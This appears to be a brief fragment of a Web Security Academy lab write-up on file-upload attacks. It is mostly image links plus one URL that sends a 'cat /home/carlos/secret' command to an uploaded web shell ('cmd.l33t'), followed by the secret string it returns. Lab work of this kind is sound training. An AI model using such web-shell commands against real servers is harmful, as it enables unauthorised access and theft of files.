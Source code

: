 ![img](media/e95f563e41d02814c5cd9c3c08a0e134.png)

![img](media/0f6993a825afdf6f2b7a4ac82e8a375c.png)

Read the file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq

![img](media/911a8429912ff25d799acea579b11d8a.png)
